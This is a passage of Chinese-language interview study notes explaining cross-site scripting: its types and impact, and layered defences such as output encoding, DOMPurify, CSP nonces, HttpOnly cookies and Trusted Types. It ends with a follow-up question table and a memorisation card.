> "XSS 我理解它的本质是**数据和代码的边界失控**——用户输入本来是数据，但被当成了 HTML 或 JS 执行。和 SQL 注入是同一类问题，只是执行环境在浏览器。
>
> **先说三种类型。** 存储型是恶意内容存进数据库，比如评论区，所有访问者都会执行，影响最大，理论上还能做成蠕虫；反射型是 payload 在 URL 参数里，服务端原样拼回页面，需要诱导受害者点链接；DOM 型最特殊，它是纯前端的，payload 在 `location.hash` 里，前端 JS 把它塞进 `innerHTML`，**整个过程不经过服务端**，所以后端过滤和 WAF 都看不到，只能改前端代码。
>
> **再说危害。** 不只是弹窗。它能读 `localStorage` 里的 token、能监听键盘记录密码、能以用户身份发请求、能改页面做钓鱼。而且它**能绕过 CSRF 防护**，因为 CSRF Token 就渲染在页面里——这也是为什么业界说 XSS 比 CSRF 更严重。
>
> **防御我按纵深讲五层。**
>
> 第一层也是最根本的是**输出编码**，注意是"输出编码"不是"输入过滤"。因为同一份数据放在不同位置要不同的编码：HTML 正文转 `& < >`，属性值必须加引号并转引号，URL 要 `encodeURIComponent` 并**校验 `javascript:` 协议**，JS 字符串要用 `JSON.stringify` 并把 `<` 转成 `\u003c` 防止 `</script>` 提前闭合。
>
> 第二层是用**安全的 API**：`textContent` 而不是 `innerHTML`，框架的 `{{ }}` 而不是 `v-html`。
>
> 第三层是必须渲染 HTML 时用 **DOMPurify 消毒**，不能自己写正则，因为事件属性有几十种、还有跨标签拼接和 mXSS 变形。
>
> 第四层是 **CSP**，用 nonce 加 `strict-dynamic`，这样即使注入了 `<script>` 也没有 nonce，执行不了。
>
> 第五层是兜底：Cookie 加 `HttpOnly` 让 JS 读不到，用 **Trusted Types** 从 API 层面禁掉字符串赋给 `innerHTML`。
>
> 最后工程上我会做两件事：用 ESLint 的 `no-unsanitized` 把危险 API 禁掉，以及把 CSP 的 `report-to` 接上，线上有人尝试注入时能收到报告。"

### 12.3 追问「那你说说 `innerHTML` 和 `textContent` 区别」

> "`textContent` 是文本节点的读写，把内容当作纯文本，不解析 HTML，所以天然免疫 XSS；`innerHTML` 会走 HTML 解析器，会创建真实元素、执行事件属性，所以是 XSS 的主要 sink。性能上 `textContent` 也更快，因为不用解析。唯一必须用 `innerHTML` 的场景是需要动态生成结构，那一定要先消毒。"

---

## 13. 追问表

| # | 追问 | 要点 |
|---|---|---|
| 1 | XSS 三型区别？ | 存储（入库、全员）/ 反射（URL 回显）/ DOM（纯前端、不过服务端） |
| 2 | 哪一型最危险？ | 存储型（影响面最大、可持久、可蠕虫） |
| 3 | 哪一型服务端防不了？ | DOM 型（payload 不进服务端） |
| 4 | 输入过滤和输出编码区别？ | 前者黑名单易漏，后者按上下文转义理论上完备 |
| 5 | 为什么要按上下文区分？ | 同一份数据在 HTML/属性/URL/JS/CSS 里逃逸方式不同 |
| 6 | `javascript:` 为什么危险？ | 在当前页上下文执行，等价于 XSS；且可被编码变形绕过黑名单 |
| 7 | 为什么要转 `</script>`？ | 它会提前闭合脚本块，后面的内容被当 HTML 解析 |
| 8 | 富文本怎么防？ | DOMPurify 白名单 + 服务端也过滤 + CSP 兜底 |
| 9 | 为什么不能自己写正则过滤？ | 事件属性多、跨标签拼接、编码变形、mXSS |
| 10 | mXSS 是什么？ | 序列化/再解析过程中 HTML 变形为可执行形式 |
| 11 | Trusted Types 是什么？ | 强制 HTML 赋值走策略，从 API 层根除 sink |
| 12 | CSP 能完全防 XSS 吗？ | 不能，是缓解；且配了 `unsafe-inline` 就等于没配 |
| 13 | HttpOnly 能防 XSS 吗？ | 只能防"偷 Cookie"，挡不住 XSS 直接发请求 |
| 14 | XSS 和 CSRF 关系？ | XSS 可以读 CSRF Token，所以 XSS 能绕过 CSRF 防护 |
| 15 | 上传 SVG 有什么风险？ | SVG 可含 `<script>`，同源访问即在你的域下执行 |
| 16 | 前端框架能自动防吗？ | 只防"正常插值"，`v-html`/`dangerouslySetInnerHTML` 不防 |
| 17 | 怎么在线上发现 XSS？ | CSP `report-to` 收集违规 + 前端异常监控 + WAF 日志 |
| 18 | 怎么在 CI 里防回退？ | ESLint `no-unsanitized` + grep 危险 sink + CSP 必须有 nonce |
| 19 | Vue 的 `v-html` 会被当模板编译吗？ | 不会（Vue 3 明确不编译），但 HTML 本身的风险仍在 |
| 20 | 前端还能做什么？ | 输出编码、CSP 配合、Trusted Types、危险 API 禁用 |

---

## 14. 速记卡

```
【本质】
数据被当成代码执行 → 同源 → 拥有页面全部权限
和 SQL 注入同类：只在"执行环境"上不同

【三型】
存储型：入库，全员中招，最危险，可蠕虫
反射型：URL 参数回显，需诱导点击
DOM 型：纯前端，payload 在 hash，服务端看不到，最难检测

【补三型】
mXSS：序列化再解析时变形 → 必须用 DOMPurify
Self-XSS：骗你在控制台粘贴
Blind XSS：在管理员后台执行 → 后台更要防

【五种上下文】
HTML 正文   → 转 & < > " '
HTML 属性   → 必须加引号 + 转引号（不加引号是重灾区）
URL         → encodeURIComponent + 校验协议（挡 javascript:/data:）
JS 字符串   → JSON.stringify + 把 < 转 \u003c（防 </script> 提前闭合）
CSS         → 基本不放用户输入；必须放则严格白名单

【防御五层】
输出编码（根本）→ 安全 API（textContent）→ DOMPurify → CSP nonce → HttpOnly / Trusted Types

【危害不止弹窗】
读 token / 键盘记录 / 冒用身份 / 钓鱼 / 蠕虫 / 挖矿
关键：XSS 能读页面里的 CSRF Token → 能绕过 CSRF 防护

【框架不保险】
Vue: v-html｜React: dangerouslySetInnerHTML｜href 绑定｜服务端模板 <%- %> {{{ }}}

【工程化】
ESLint no-unsanitized 禁危险 API
grep innerHTML|v-html|eval 进 CI
CSP report-to 收集线上违规
SVG 上传 → 独立域 + Content-Disposition: attachment
```
